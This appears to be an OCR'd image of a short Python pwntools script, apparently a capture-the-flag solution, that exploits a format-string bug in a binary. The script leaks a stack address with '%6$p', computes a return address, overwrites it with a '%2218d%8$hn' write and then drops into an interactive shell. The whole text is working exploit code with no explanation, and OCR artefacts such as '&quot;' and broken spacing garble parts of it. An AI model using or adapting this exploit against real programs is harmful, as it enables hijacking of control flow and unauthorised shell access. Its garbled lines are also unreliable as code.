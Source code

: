 ```python



sh.recv()

sh.writeline("1"*8)

sh.recv()

sh.writeline("%6$p")

sh.recv()

sh.writeline("1")

sh.recvuntil("0x")

ret_addr = int(sh.recvline().strip(),16) - 0x38

Success ( &quot;ret_addr:&quot; + Hex (ret_addr))




sh.recv()

sh.writeline("2")

sh.recv()

sh.sendline (p64 (ret_addr))
sh.recv()

#sh.writeline("%2214d%8$hn")

#0x4008aa-0x4008a6

sh.writeline("%2218d%8$hn")



sh.recv()

sh.writeline("1")

sh.recv()

sh.interactive()

```
